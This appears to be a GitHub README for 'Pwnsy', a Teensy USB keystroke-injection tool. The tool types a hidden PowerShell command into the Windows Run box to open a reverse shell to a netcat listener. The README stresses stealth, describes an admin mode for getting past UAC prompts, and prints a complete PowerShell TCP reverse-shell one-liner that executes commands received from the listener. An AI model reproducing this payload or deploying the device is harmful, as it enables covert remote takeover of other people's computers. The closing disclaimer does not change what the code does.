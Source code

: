 # Pwnsy
Penetration Testing Tool for Windows 7 => 10

Idea : Peensy (Offensive Security)  
Thanks to : @samratashok for the tiny (~280 characters) PowerShell TCP Client

## What does it do
It allows to execute a reverse shell on any Windows machine with PowerShell enabled within a minimal  
amount of time, and in a stealthy manner. 

## How does it works
It uses the abilities of the Teensy boards to deploy a small powershell script, using keyboard emulation.  
The goal of this project was to find a way to launch a TCP Client that would connect to a netcat listener.  

To make it as stealthy as possible, we use the "Run" window, that can be accessed by pressing Windows +R.  
Tho, the amount of text is limited to 260 characters. So we need to run a PowerShell prompt in "Hidden"  
windowstyle, and pass the commands to execute a TCP client. Unfortunately there isn't enough place to  
make the client respond to the commands sent by the netcat listener within 260 chars. 

The solution is to wait for the netcat listener to send the complete version of the TCP Client and execute it.  
That way we can have feedback from a distant machine of what's happening on commands execution sent from the server.  

In case you need an elevated PowerShell prompt to execute script from the server, there is an admin mode  
that will run PowerShell as admin and wait for a button to be pressed to accept the UAC prompt if there is one.  
That way, it's reliable and we don't have to pray for it to pop within a fixed amount of time (no delays).  

1. Hardware required
   - A Teensy board (2.0 up to 3.6)
   - Switch buttons (3) to configure the different modes without compiling it every time
   - A test PCB to put those
   
What are the buttons doing? 

Button 1. Start typing after the keyboard is ready  
Button 2. Accept the UAC prompt if there is the need to  
Button 3. Admin mode (that will modify the command typed in the Run window in order to execute an elevated  
PowerShell prompt, then wait for the button 2 to be pressed in order to continue)  

## What do I need to setup (Server side)
Simply run netcat on linux, like this :  
`netcat -l -p 1337`

I advice you to run it inside of a loop in bash, so you can exit it with Ctrl+C, because that's needed if you  
send another version of the TCP Client to the client (if you use -k netcat will close when you hit Ctrl+C)  

Once you recieve a connexion, push the complete TCP Client to the client so you can have feedback
on what you execute :  
```$b=[text.encoding]::UTF8;while(1){try{;$u=(New-Object Net.Sockets.TCPClient("0.0.0.0",1337)).GetStream();$w=New-Object byte[] 65535;while(($i=$u.Read($w,0,$w.Length)) -ne 0){$d=$b.GetString($w,0,$i);$v=$b.GetBytes((iex $d 2>&1|Out-String));$u.Write($v,0,$v.Length)}}catch{}}```  
(don't forget to replace the IP and port to fit your situation) 

Restart your netcat listener so the new client version can connect to your port  
Done! You can execute any PowerShell command and get the output in your netcat listener!

## Demo : 
[![5 Seconds Reverse Shell](https://img.youtube.com/vi/8NpX56rHsYY/0.jpg)](https://www.youtube.com/watch?v=8NpX56rHsYY)

### Notes
Intended for legal usage ONLY, I'm not liable for anything you do with this code.  
Feel free to give feedback and ideas in order to improve it!

